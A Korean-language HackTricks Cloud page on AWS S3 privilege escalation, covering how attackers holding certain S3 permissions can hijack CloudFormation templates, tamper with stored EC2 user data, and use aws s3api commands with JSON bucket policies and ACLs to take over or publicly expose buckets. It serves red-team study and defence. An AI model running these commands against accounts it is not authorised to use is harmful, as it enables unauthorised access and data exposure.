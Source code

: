 # AWS - S3 Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

흥미로운 버킷에 대한 이러한 권한을 가진 공격자는 리소스를 탈취하고 권한을 상승시킬 수 있습니다.

예를 들어, "cf-templates-nohnwfax6a6i-us-east-1"이라는 클라우드포메이션 버킷에 대한 이러한 **권한을 가진 공격자는 배포를 탈취할 수 있습니다.** 접근은 다음 정책으로 부여될 수 있습니다:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Action":[
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"],
"Resource":[
"arn:aws:s3:::cf-templates-*\/*",
"arn:aws:s3:::cf-templates-*"]
},
{
"Effect":"Allow",
"Action":"s3:ListAllMyBuckets",
"Resource":"*"
}]
}
```
그리고 하이재킹은 **템플릿이 버킷에 업로드되는 순간부터** **템플릿이 배포되는 순간까지의 작은 시간 창** 때문에 가능합니다. 공격자는 자신의 계정에 **람다 함수**를 생성하여 **버킷 알림이 전송될 때 트리거**되도록 하고, **하이재킹**하여 해당 **버킷**의 **내용**을 가져갈 수 있습니다.

![](<../../../.gitbook/assets/image (174).png>)

Pacu 모듈 [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn\_\_resource\_injection)은 이 공격을 자동화하는 데 사용할 수 있습니다.\
자세한 정보는 원본 연구를 확인하세요: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

이들은 **S3에 객체를 가져오고 업로드하는** 권한입니다. AWS 내부(및 외부)의 여러 서비스가 **구성 파일**을 저장하기 위해 S3 스토리지를 사용합니다.\
이들에 대한 **읽기 접근** 권한이 있는 공격자는 그 안에서 **민감한 정보**를 찾을 수 있습니다.\
이들에 대한 **쓰기 접근** 권한이 있는 공격자는 **데이터를 수정하여 일부 서비스를 악용하고 권한을 상승시키려고 시도할 수 있습니다**.\
다음은 몇 가지 예입니다:

* EC2 인스턴스가 **S3 버킷에 사용자 데이터를 저장하고 있는 경우**, 공격자는 이를 수정하여 **EC2 인스턴스 내에서 임의의 코드를 실행**할 수 있습니다.

### `s3:PutBucketPolicy`

공격자는 **같은 계정에서** 있어야 하며, 그렇지 않으면 `지정된 방법이 허용되지 않습니다`라는 오류가 발생합니다. 이 권한을 가진 공격자는 자신에게 더 많은 권한을 부여하여 버킷을 읽고, 쓰고, 수정하고, 삭제하고, 노출할 수 있습니다.
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
"Id": "Policy1568185116930",
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:root"
},
"Action":"s3:ListBucket",
"Resource":"arn:aws:s3:::somebucketname"
},
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:user/username"
},
"Action":"s3:*",
"Resource":"arn:aws:s3:::somebucketname/*"
}
]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

공격자는 이러한 권한을 악용하여 **특정 버킷에 대한 더 많은 접근 권한을 부여**할 수 있습니다.\
공격자가 동일한 계정에 속할 필요는 없다는 점에 유의하십시오. 또한 쓰기 접근 권한
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

공격자는 이러한 권한을 악용하여 버킷 내 특정 객체에 대한 더 많은 액세스를 부여받을 수 있습니다.
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

이 권한을 가진 공격자는 특정 객체 버전에 Acl을 설정할 수 있을 것으로 예상됩니다.
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}

